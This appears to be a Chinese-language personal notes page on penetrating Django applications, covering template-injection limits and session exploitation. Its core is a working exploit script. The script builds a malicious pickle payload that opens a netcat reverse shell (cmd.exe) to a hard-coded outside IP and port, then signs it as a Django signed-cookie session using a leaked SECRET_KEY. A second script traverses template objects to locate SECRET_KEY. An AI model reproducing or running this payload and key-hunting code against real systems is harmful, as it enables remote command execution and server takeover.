 # django



这里记录着我对渗透django框架的总结



## 官方文档地址

官方文档 https://docs.djangoproject.com/zh-hans/3.0/ 



## django结构

```
|-site
|	|- __init__.py
|	|- settings.py
|	|- urls.py
|	|- wsgi.py
|
|
|-manage.py
```

settings里面是配置

urls是路由



## django ssti

django ssti严格限制了不能以属性和变量不能以下划线开头,这大大削弱了ssti的危害性,但是可以通过读取django的配置来方便进一步利用

### 特殊的session配置与secret_key泄露导致的命令执行

当django有如下配置时

```
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
SESSION_SERIALIZER = 'core.serializer.PickleSerializer'
```



加上泄露secret_key 导致任意命令执行

 https://docs.djangoproject.com/zh-hans/3.0/topics/http/sessions/#using-cookie-based-sessions 



#### 生成恶意cookie的脚本



```python
import base64
import datetime
import json
import re
import time
import zlib
import pickle
from django.utils import baseconv
from django.utils.crypto import constant_time_compare, salted_hmac
from django.utils.encoding import force_bytes
from django.utils.module_loading import import_string
from django import core
from django.core import signing


myexp=b'''cbuiltins
globals
(tRp100
cbuiltins
getattr
p101
(g100
S'get'
tR(S'builtins'
tRp103
g101
(g103
S'eval'
tR(S'eval(\'\'\'__import__('os').system('nc -e "cmd.exe /K" 39.108.164.219 60000 -d')\'\'\')'
tR.'''
def pickle_exp(SECRET_KEY):
    data = myexp
    compress=True
    # Flag for if it's been compressed or not
    is_compressed = False
    salt='django.contrib.sessions.backends.signed_cookies'
    if compress:
        # Avoid zlib dependency unless compress is being used
        compressed = zlib.compress(data)
        if len(compressed) < (len(data) - 1):
            data = compressed
            is_compressed = True
    base64d = signing.b64_encode(data).decode()
    if is_compressed:
        base64d = '.' + base64d
    print(signing.TimestampSigner(key=SECRET_KEY, salt=salt).sign(base64d))


pickle_exp("asdasdasdasdas")

```



### 泄露secret_key脚本



```python 
from django.http.response import HttpResponse, HttpResponseRedirect
from django.template import engines
from django.contrib.auth import login as auth_login, get_user_model, authenticate
from django.contrib.auth.views import LoginView, logout_then_login
from django.contrib.auth.decorators import login_required
from django.views import generic
from django import template

import django
from django import template
register = template.Library()

@register.filter
def get_dict(obj,way="",depth=0):
    if depth>11:
        return 
    objdir=dir(obj)
    r={"dict":objdir,"way":way}
    result=""
    
    for i in objdir:            
        try :
            if '_' == i[0]:
                continue
            if getattr(obj, '__module__', None)!=None and getattr(obj, '__module__', None).split('.')[0] == django.__name__:
                result+=get_dict(getattr(obj,i,None),way+"."+i,depth+1) 
        except TypeError:
            pass

    if "SECRET_KEY" in objdir or "settings" in objdir:
        print(way)
        return result+way+"\n"
    return result
```



## 关于调试django的一些建议



如果要看某个功能的具体实现,一定结合文档和源代码,不然你会绝望的.



